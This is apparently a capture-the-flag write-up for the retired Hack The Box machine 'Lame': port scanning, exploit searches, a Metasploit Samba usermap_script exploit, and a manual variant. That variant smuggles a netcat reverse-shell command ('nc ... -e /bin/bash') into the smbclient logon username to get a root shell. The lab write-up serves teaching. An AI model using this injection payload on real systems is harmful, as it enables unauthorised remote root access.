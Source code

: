 ```yaml
---
layout: post
title: "Hack The Box - Easy - Lame"
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Metasploit
  - Linux
---
```


## Walk through of Lame from HTB

![Lame](/images/2020-04-05-21-43-26.png)

Retired box, available here: [HTB - Easy - Lame](https://www.hackthebox.eu/home/machines/profile/1)
<!--more-->
Check for open ports with Nmap:

```code
root@kali:~/htb/lame# nmap -sS -sC -sV -oA lame -p- -T4 10.10.10.3

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-16 22:10 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup:WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup:WORKGROUP)
3632/tcp open  distccd     distccd v1((GNU)4.2.4(Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -2d23h00m43s, deviation: 0s, median: -2d23h00m43s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-13T14:11:05-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Lots of ports open. Has port 21 open with anonymous FTP, but looking around there is nothing obvious.

Box is running vsftpd 2.3.4 so check searchsploit for vulnerability:

```code
root@kali:~/htb/lame# searchsploit vsftpd
---------------------------------------------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(1)  | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(2)  | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------
```

Last one in above list for backdoor execution looks good. Start Metasploit and load exploit:

```code
root@kali:~/htb/lame# msfconsole
msf5 > search vsftpd 2.3.4
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > show options
msf5 > set RHOST 10.10.10.3
msf5 > exploit
```

No luck, go back to list of services, now try samba on port 445:

```code
root@kali:~/htb/lame# searchsploit samba 3.0.20
---------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | exploits/linux/remote/7701.txt
---------------------------------------------------------------------------------
```

Back in to metasploit:

```code
root@kali:~/htb/lame# msfconsole
msf5 > search samba 3.0.20
msf5 > use exploit/multi/samba/usermap_script
msf5 > set RHOST 10.10.10.3
msf5 > exploit

[*] Started reverse TCP double handler on 10.10.14.14:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NKYmctrocnnm8nuo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NKYmctrocnnm8nuo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:35080) at 2019-07-16 22:18:10 +0100
```

I have a shell, but need an interactive one:

```code
msf5 > shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
```

Now have interactive shell so get the flags:

```code
# ls /home
ftp  makis  service  user

# ls /home/makis
user.txt

# cat /home/makis/user.txt
# cat /root/root.txt
```

## Alternative Method (without MetaSploit)

Start a Netcat session listening:

```code
root@kali:~/htb/lame# nc –lvp 4444
```

Switch to another terminal:

```code
root@kali:~/htb/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password:        <--- just press enter
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc 10.10.14.22 4444 –e /bin/bash`"
Password:                               <--- just press enter
```

Switch back to Netcat terminal and should have root shell:

```code
# id
uid=0(root) gid=0(root)
```

Can get flags as above now.
